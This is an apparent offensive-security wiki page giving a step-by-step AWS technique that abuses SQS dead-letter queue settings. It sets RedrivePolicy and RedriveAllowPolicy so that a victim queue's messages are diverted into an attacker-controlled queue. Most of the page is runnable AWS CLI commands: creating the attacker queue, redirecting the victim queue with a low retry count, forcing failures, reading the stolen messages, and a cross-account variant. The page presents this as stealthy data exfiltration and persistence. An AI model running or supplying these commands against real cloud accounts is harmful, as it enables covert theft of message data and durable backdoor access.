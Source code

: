 # AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

Abuse SQS Dead-Letter Queues (DLQs) to stealthily siphon data from a victim source queue by pointing its RedrivePolicy to an attacker-controlled queue. With a low maxReceiveCount and by triggering or awaiting normal processing failures, messages are automatically diverted to the attacker DLQ without changing producers or Lambda event source mappings.

## Abused Permissions
- sqs:SetQueueAttributes on the victim source queue (to set RedrivePolicy)
- sqs:SetQueueAttributes on the attacker DLQ (to set RedriveAllowPolicy)
- Optional for acceleration: sqs:ReceiveMessage on the source queue
- Optional for setup: sqs:CreateQueue, sqs:SendMessage

## Same-Account Flow (allowAll)

Preparation (attacker account or compromised principal):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
  --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```

Execution (run as compromised principal in victim account):
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
  --queue-url "$VICTIM_SRC_URL" --region $REGION \
  --attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```

Acceleration (optional):
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
  aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
    --max-number-of-messages 10 --visibility-timeout 0; \
 done
```

Validation:
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --max-number-of-messages 10 --attribute-names All --message-attribute-names All
```

Example evidence (Attributes include DeadLetterQueueSourceArn):
```json
{
  "MessageId": "...",
  "Body": "...",
  "Attributes": {
    "DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
  }
}
```

## Cross-Account Variant (byQueue)
Set RedriveAllowPolicy on the attacker DLQ to only allow specific victim source queue ARNs:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
  --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```

## Impact
- Stealthy, durable data exfiltration/persistence by automatically diverting failed messages from a victim SQS source queue into an attacker-controlled DLQ, with minimal operational noise and no changes to producers or Lambda mappings.

